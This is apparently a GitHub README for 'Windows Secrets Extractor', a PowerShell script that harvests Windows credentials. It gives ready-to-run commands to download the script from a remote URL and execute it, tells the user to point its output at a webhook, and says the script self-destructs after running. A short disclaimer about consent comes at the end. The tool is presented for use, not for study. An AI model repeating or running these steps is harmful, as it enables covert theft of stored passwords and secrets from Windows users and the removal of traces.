 # Windows Secrets Extractor


### Requirements
- PowerShell **CredentialManager** Module : ``Install-Module -Name CredentialManager``
- (Optionnal) Python 3.X


### Before Usage
- Create a WebHook
- Adapt line ``1`` and enter your WebHook URL.

***

### Usage
1. Download the script :

```
Invoke-WebRequest https://raw.githubusercontent.com/danglock/Windows-Secrets-Extractor/main/extractor.ps1 -outfile $env:USERPROFILE\extractor.ps1
```

3. Run the Script :

```
cd $env:USERPROFILE;.\extractor.ps1
```

Note: the script will auto-destroy after execution

***
Be careful, I am not responsible for your use of this script.
Please do not use it against machines whose owner has not given you their consent
